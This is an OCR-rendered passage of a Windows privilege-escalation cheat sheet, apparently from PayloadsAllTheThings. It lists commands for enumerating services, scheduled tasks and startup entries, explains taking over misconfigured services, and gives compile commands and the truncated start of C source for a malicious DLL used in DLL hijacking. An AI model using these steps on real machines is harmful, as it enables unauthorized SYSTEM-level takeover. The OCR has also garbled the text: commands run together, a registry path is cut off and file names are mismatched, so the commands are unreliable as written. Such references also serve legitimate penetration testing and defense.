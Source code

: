 REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine"  /v PowerShellVersion

List installed programs

Get-ChildItem  'C:\Program Files',  'C:\Program Files (x86)'  | ft Parent,Name,LastWriteTimeGet-ChildItem  -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

List services
net start
wmic service list brief
tasklist /SVC
Scheduled tasks
schtasks /query /fo LIST 2>nul | findstr TaskName

schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run"  | grep -B 1 SYSTEMGet-ScheduledTask  |  where {$_.TaskPath  -notlike  "\Microsoft*"} | ft TaskName,TaskPath,State

Startup tasks
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='58'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1723' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services)EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writeable locations:

- Orphaned installs, not installed anymore but still exist in startup
- DLL Hijacking

# find missing DLL -  Find-PathDLLHijack PowerUp.ps1-  Process Monitor : check for  "Name Not Found"# compile a malicious dll-  For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"-  For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"# content of windows_dll.c#include <windows.h>BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) { if (dwReason == DLL_PROCESS_ATTACH) {
